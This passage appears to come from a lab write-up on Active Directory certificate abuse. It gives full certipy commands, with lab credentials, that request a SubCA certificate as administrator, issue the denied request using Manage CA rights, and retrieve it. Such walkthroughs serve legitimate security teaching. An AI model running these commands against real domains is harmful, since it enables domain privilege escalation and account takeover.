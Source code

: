 If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the `SubCA` template.

This request will be denied, but we will save the private key and note down the request ID.

`certipy req -u m.roland@certipied.local -p 'Acc3SsC0ntr0l' -ca Certipied-CA -template SubCA -upn administrator@certipied.local -dc-ip 192.168.91.181`

![](/screenshots/20230725010221.png?raw=true)

With our `Manage CA` and `Manage Certificates`, we can then issue the failed certificate request with the `ca` command and the `-issue-request <request ID>` parameter.

`certipy ca -ca 'Certipied-CA' -issue-request 8 -u m.roland@certipied.local -p 'Acc3SsC0ntr0l' -dc-ip 192.168.91.181`

![](/screenshots/20230725010303.png?raw=true)

`certipy req -u m.roland@certipied.local -p 'Acc3SsC0ntr0l' -ca Certipied-CA -retrieve 8 -dc-ip 192.168.91.181`

![](/screenshots/20230725010352.png?raw=true)

## Final Words
